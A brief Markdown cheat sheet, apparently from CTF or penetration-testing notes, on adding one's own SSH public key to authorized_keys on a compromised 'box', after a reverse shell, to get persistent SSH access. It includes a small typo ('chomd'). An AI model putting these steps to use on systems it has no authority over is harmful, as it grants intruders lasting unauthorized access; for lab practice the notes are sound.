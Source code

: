 # SSH_KEY_ON_BOX

dropping an SSH key and using SSH to access the box/machine

make a dir name - .ssh(in the home folder of box)
```bash
 mkdir .ssh
 vi authorized_keys #if the reverse shell is misbehaving can echo your key
 echo 'contents of .pub file' >> authorized_keys
```

****** drop/create an ssh key ******* (type the following command on your terminal)
```bash
 ssh-keygen -f <file name>  			   # (-i to use key)
 ls 

 cat <file name>                     # (it will be with the extention of .pub)
```
'paste the file contents on the box in **authorized_keys** file created earlier'
> *on the Box*
```bash
 chmod 600  authorized_keys
```
> *on our terminal*
```bash
 chomd 600 <file name>  # (this is the private key) 

 ssh -i <file name> user@<machine/box IP>

```

Note : 
1. Always make the file under the name of 'authorized_keys' on the box/machine or else it won't work.
2. Remember to give the correct permission number for execution. 
<!-- https://phoenixnap.com/kb/ssh-permission-denied-publickey#:~:text=If%20you%20want%20to%20use,login%20in%20the%20sshd_config%20file.&text=In%20the%20file%2C%20find%20the,disable%20it%20by%20adding%20no%20. -->




